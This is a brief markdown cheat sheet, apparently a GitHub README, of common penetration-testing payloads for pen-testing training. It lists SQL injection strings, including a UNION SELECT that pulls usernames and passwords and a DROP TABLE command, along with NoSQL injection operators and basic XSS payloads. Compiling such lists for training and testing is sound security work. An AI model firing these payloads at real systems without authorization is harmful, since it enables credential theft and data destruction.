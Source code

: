 #  Common Penetration Testing Payloads
These are some common tests that I have found to be useful in my every day pen testing training.

---

##  Injection Attacks

###  SQL Injection (SQLi)
```sql
OR 1=1--
admin'--
' UNION SELECT NULL, username, password FROM users--
admin' OR '1'='1
'; DROP TABLE users;--
```


###  NoSQL Injection
```json
{ "username": { "$ne": null }, "password": { "$ne": null } }
' || 1==1 //
```

---

##  Cross-Site Scripting (XSS)

###  Basic Payloads
```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
<iframe src="javascript:alert('XSS')">
```


---
